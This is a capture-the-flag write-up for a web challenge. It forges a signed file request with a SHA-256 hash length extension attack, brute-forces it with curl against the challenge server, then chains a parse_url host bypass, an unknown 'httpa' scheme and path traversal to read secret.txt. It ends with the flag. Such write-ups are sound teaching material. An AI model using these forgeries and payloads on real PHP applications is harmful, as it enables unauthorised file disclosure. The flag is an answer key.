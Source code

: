 # Welcome Christmas

### Category

Web

### Description

![alt](images/1.png)

### Solution

In the previous challenge, we were able to recover an ip address and a link to a web server "http://3.141.159.106", so I go to this page for the next challenge :

![alt](images/2.png)

Here, there is nothing, so first reflex, I will see if the robots.txt file is present :

```
User-agent: Uchiha
Allow: /read.php
```

Here, it gives two clues:
- Our user-agent must be the value "Uchiha".
- We can then visit the read.php page

We arrive on a page which allows us to read a file, but the field for the file to read is already pre-filled with the value "184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5|read.php", here, there is no doubt, we are going to have to make a "hash length extension attack". So we are going to leak the source code of "read.php", to see the algorithm used and see how the script works to confirm or deny our theory.

```php
<?php
if ($_SERVER['HTTP_USER_AGENT']!=="Uchiha"){
	echo "Access Denied. Only Uchiha clan can access this";
}
else{
    //some html
}
?>
//some html
<?php
include "secret.php";
if(isset($_POST['string'])){
	$arr=explode("|",$_POST['string']) ;
	$filenames=$arr[1];
	$hash=$arr[0];
	if($hash===hash("sha256", $SECRET.$filenames ) && preg_match("/\//",$filenames)===0 ){
		foreach(explode(":",$filenames) as $filename){
			if(in_array($filename,["read.php","index.php","guinjutsu.php"])) {
				$jutsu=file_get_contents($filename);
				echo "Sharingan: ".$jutsu;
		    }
		}
	}
	else{
		echo "Verification Failed! You didn't awaken your sharingan!";
	}
}
?>
```

This confirms what I thought, we will have to make a "hash length extension attack" on the sha256 algorithm. For that I will use the "hash-extender" tool, which allows to make this attack.

Here, we can see that the basic value is "sha256|file1.php:file2.php:fileN.php", but we can't know the value of the secret, so this attack is very useful. You can find more informations on this vulnerability here : https://en.wikipedia.org/wiki/Length_extension_attack.

One thing remains unclear, it is the size of the secret, indeed, we do not know it. So we will bruteforce the size of the secret with the "hash-extender" tool :

```sh
./hash_extender --signature="184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5" --secret-min=1 --secret-max=50 --data="read.php" --append=":guinjutsu.php" -f sha256 --out-data-format=html --table | awk '{print $3}' > ../possible_hash
```
We generate here all the possibilities for the size of the secret contained in "secret.php".

Now we just have to bruteforce with curl, and see if we can get the source code of the file "guinjutsu.php".

```sh
for i in `cat test_hash`; do curl -H "User-Agent: Uchiha" -X POST http://3.141.159.106/read.php --data "string=fc979b4620daf4a9db3f5fdddfb3300469162e41daa0d60c976c336701bf7117|$i"; done
```

After several requests, we observe the contents of the file "guinjutsu.php" which is returned to us, our attack thus succeeded!

```php
<?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
    $par=parse_url($url);
    if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
        return True;
    }
    else{
        return False;
    }
}

if (isset($_POST['submit'])){
    if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
        $url=$_POST['api'].$_POST['endpoint'];
        if (check($url)){
            $opts = array(
  'http'=>array(
    'method'=>"GET",
    'follow_location'=>false,
    'header'=>"Accept-language: en\r\n"
  )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;
        }
    }
}
```

Here, we quickly see that it is this php file that will allow us to read the file at the root "secret.txt", with the file_get_contents.

Unfortunately, there is a check() function that checks the following things:
- The schema contains the string "http"
- The host must be "uchiha.fuinjutsukeeper.tech"
- The port must be "5000"

I know that url parsing is something very complicated, even if it looks simple, there are a lot of special characters that allow to change the host in the middle of the url, change the path, ...

For the first bypass we will use the "@" character, which allows to modify the host :

```php
var_dump(parse_url("http://google.com@uchiha.fuinjutsukeeper.tech:5000"));
```
```
array(4) {
  ["scheme"]=>
  string(4) "http"
  ["host"]=>
  string(27) "uchiha.fuinjutsukeeper.tech"
  ["port"]=>
  int(5000)
  ["user"]=>
  string(10) "google.com"
}
```

Here, we can fake our host and port to get the one expected by the check function.

One last thing is missing now, and that is the diagram. Indeed, we want to leak a local file, in other words to use the file:/// wrapper, but here, it is necessary that "http" is present in the schema, to pass the check. After reading some docs, I could learn that if PHP doesn't find a wrapper with the given name, it will call .... file:///.

![alt](images/3.png)

So we have all our bypasses now, which gives us the final payload :
```
httpa://@uchiha.fuinjutsukeeper.tech:5000/../../../../../../../../../../secret.txt&endpoint=
```

We send it to the server and we recover the file "secret.txt" :

```
Yogosha{Master_Of_ArbitraRy_ReAdiNg_JuTsu}
Someone calling himself madara said to Itachi to kill everyone, I'm not sure about this intel but if it's right no one can beat Itachi except Shisui. Check this forum they are using http://3.141.109.49
```

### Flag

Yogosha{Master_Of_ArbitraRy_ReAdiNg_JuTsu}